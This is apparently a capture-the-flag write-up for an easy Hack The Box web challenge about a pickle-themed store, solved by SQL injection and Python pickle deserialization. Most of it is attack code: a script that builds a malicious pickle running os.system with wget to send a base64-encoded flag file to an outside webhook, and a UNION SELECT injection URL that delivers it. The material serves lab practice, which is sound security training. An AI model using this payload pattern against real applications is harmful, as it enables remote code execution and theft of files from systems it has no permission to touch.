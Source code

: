 ## **HTB** 
### **Difficult:** easy
### **Type:** SQL injection, Pickle deserialization
___
### **Description:**
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

Author: InfoSecJack
___

de.py
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget <WEB_HOOK_URL>?$(cat flag.txt | base64)')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
Get flag:

```http
http://<HTB_IP>/view/' union select all '<pickle payload>'--
```